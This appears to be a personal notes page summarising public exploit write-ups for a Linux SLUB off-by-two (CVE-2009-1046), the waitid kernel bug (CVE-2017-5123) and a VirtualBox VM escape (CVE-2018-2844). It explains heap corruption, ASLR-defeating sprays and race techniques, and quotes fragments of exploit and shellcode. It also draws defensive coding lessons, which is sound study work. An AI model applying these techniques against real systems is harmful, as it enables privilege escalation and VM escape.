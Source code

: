 *Some thoughts and notes about exploitation. Updating...*

<br>

## Attack The Core - CVE-2009-1046: set_selection() off-by-two

Although we can only overflow two bytes on the SLUB allocator, we can gradually open the evil gate for us. In this exploitation, we corrupted data struct in the next free object, made its free list pointer points to a nearby (cause we could corrupt just two bytes) no-align fake object which we can construct the whole free list pointer to a fake object totally constructed by us in user space. BTW, we don't consider the SMAP here.

![](./img/misaligning_slab_by_corrupting_the_free_pointer.png)

This actually reminds me that when we dev, if some structs in data are constant in their lifetime, we shouldn't just make them all writable. Instead, we should force them to be const (Principle of least privilege). Give an example, if the last two bytes of our address are always being zero, we can:

```c
void *p = input();
return p & ~0xFFFF;
// or
void *p = input(); // without least two bytes
return p << 16;
```

<br>


## [Exploiting CVE-2017-5123 with full protections. SMEP, SMAP, and the Chrome Sandbox!](https://salls.github.io/Linux-Kernel-CVE-2017-5123/)

1. Spray payload or victims, which increases the possibility of success, and (brute force) probe are both can be used to against ASLR.

2. Padding, especially padding in the middle or beginning of struct, is Evil, for instance:

```c
struct siginfo {
    int si_signo;
    int si_errno;
    int si_code;
    int padding;   // this remains unchanged by waitid
    int pid;       // process id
    int uid;       // user id
    int status;    // return code
}
```

Since it's easy for us to control the least byte in pid, we can overwrite arbitrary 5 bytes plus 3 zeros (si_code is an unsigned int under 256), thus becoming an 8 bytes address!

On the contrary, if we use padding with union, like:

```c
typedef struct siginfo {
	union {
		__SIGINFO;
		int _si_pad[SI_MAX_SIZE/sizeof(int)];
	};
} __ARCH_SI_ATTRIBUTES siginfo_t;
```

Now the padding space is above all the elements in struct, since controlling the most byte usually more difficult than the least byte, this is safer.

3. When we probe the kernel, we can currently detect the status of the kernel from user space, deciding when we find the victim or result. For example, when we use ret2dir and can't find the offset of it, we can allocate a very large amount of memory in userland. Then try randomly overwriting pages in the kernel’s physmap, while simultaneously checking if the userland page has changed. If we see a change, then we have found a kernel virtual address that corresponds to a userland address and we can write to userland to create our payload in kernel memory.
4. If a region is RW but not X, it doesn't mean we can't corrupt this region to hijack the control flow to the payload, an example is that we can construct a fake object which contains function pointers, then we trigger the path to these pointers.

<br>

## [From Compiler Optimization to Code Execution - VirtualBox VM Escape - CVE-2018-2844](https://www.voidsecurity.in/2018/08/from-compiler-optimization-to-code.html)

One method to trigger race vulnerabilities where the race window is small to brutal trying on different cores until success. For instance, there is a TOCTTOU vulnerability in the code below:

```c
static int vboxVDMACmdExec(PVBOXVDMAHOST pVdma, const uint8_t *pvBuffer, uint32_t cbBuffer) {
 /* pvBuffer is shared memory in VRAM */
        PVBOXVDMACMD pCmd = (PVBOXVDMACMD)pvBuffer;

        switch (pCmd->enmType) {
                case VBOXVDMACMD_TYPE_CHROMIUM_CMD: {
                        ...
                }
                case VBOXVDMACMD_TYPE_DMA_PRESENT_BLT: {
                        ...
                default: {
                         ...
```

Since the variable **is not marked volatile**, GCC optimizations resulted in double fetch from shared VRAM memory. This is what it looks like after optimization:

```assembly
; first fetch happens for cmp
.text:00000000000B957A                 cmp     dword ptr [r12], 0Ah ; switch 11 cases
.text:00000000000B957F                 ja      VBOXVDMACMD_TYPE_DEFAULT ; jumptable 00000000000B9597 default case

; second fetch again for pCmd->enmType from shared memory
.text:00000000000B9585                 mov     eax, [r12]
.text:00000000000B9589                 lea     rbx, vboxVDMACmdExec_JMPS
.text:00000000000B9590                 movsxd  rax, dword ptr [rbx+rax*4]
.text:00000000000B9594                 add     rax, rbx
.text:00000000000B9597                 jmp     rax             ; switch jump
```

So **RAX can be controlled by hacker**. In shellcode we can bound two threads to different cores, and give a brutal test **until the shell code set the shellcode->done**:

```c
// exploit.c
	iopl(3);
	cbVRAM = inl(VBE_DISPI_IOPORT_DATA);
	warnx("[+] VRAM buffer size = 0x%lx", cbVRAM);
	vram = map_phy_address(VRAM_PADDR, cbVRAM);
// ......
	while(1) {
		outl(payload_offset, VGA_PORT_HGSMI_GUEST);             // Racer 1
		if (shellcode->done) exit(EXIT_SUCCESS);
	}
// ......
	pthread_create(&race, NULL, jmp_table_race, &pDmaCmd->enmType); 

void *jmp_table_race(void *gva) {
	uint32_t volatile *vram_gva = (uint32_t *)gva;
	if (set_cpu_affinity(1) != 0) 
		errx(EXIT_FAILURE, "[!] Error setting CPU affinity");
	while(1) {                                                   // Racer 2
		/* points to 0xFEFEFEFF in VBoxDD.so */
		*vram_gva = 0x11EE9;		
		*vram_gva = VBOXVDMACMD_TYPE_CHILD_STATUS_IRQ;
	}
	return NULL;
}

// shellcode.c
void __attribute__((optimize("no-stack-protector"))) shellcode(struct payload *payload) {
// ......
	if (payload->done) return;
	payload->done = 1;
```

